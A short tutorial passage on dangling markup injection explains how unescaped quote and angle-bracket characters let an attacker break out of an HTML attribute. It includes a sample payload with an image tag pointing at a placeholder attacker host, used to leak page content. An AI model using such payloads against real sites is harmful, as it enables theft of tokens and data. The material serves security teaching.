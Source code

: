 ## Dargling Markup Injection

Suppose an application embeds attacker-controllable data into its responses in an unsafe way:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:

```html
">
```

In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:

```html
"><img src='//attacker-website.com?
```